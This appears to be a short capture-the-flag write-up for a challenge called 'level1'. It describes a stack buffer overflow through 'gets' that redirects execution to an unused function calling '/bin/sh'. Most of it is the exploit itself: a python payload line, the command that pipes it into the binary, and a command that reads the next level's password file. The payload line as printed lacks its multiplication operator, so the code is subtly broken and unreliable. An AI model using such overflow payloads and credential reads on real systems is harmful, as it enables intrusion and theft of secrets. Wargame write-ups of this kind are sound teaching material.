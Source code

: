 When disasembling the main function we can see that the 'gets' function is used.
and after further researches we found a "run" function that is not used in the main program.\n
This function contains a system call using "/bin/sh"

let's do a simple buffer overflow exploit

python -c 'print "B"76+"\x44\x84\x04\x08"' > /tmp/payload

cat /tmp/payload - | ./level1 #the "-" is there to keep the stdin open to pass commands to the shell

type in:
cat /home/user/level2/.pass
